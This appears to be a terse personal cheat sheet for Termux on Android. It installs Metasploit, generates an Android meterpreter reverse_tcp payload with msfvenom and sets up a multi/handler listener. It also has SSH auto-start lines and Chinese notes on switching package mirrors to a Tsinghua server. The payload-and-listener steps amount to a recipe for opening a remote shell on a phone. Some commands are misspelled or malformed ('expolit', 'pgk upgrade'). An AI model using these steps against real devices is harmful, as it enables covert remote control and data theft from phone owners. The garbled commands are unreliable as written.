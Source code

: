 # termux
---

apt update && apt upgrade

pkg install unstable-repo

pkg install metasploit

msfvenom -p android/meterpreter/reverse_tcp LHOST=

msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST 

set LPORT

expolit

pkg install vim

passwd

pgk upgrade

pkg install openssh 8022

sshd

pkill ssh

apt install tsu

tsu

echo "sshd" >> ~/.bashrc auto-ssh

手动修改

编辑 $PREFIX/etc/apt/sources.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/termux-packages-24 stable main

编辑 $PREFIX/etc/apt/sources.list.d/science.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/science-packages-24 science stable

编辑 $PREFIX/etc/apt/sources.list.d/game.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/game-packages-24 games stable

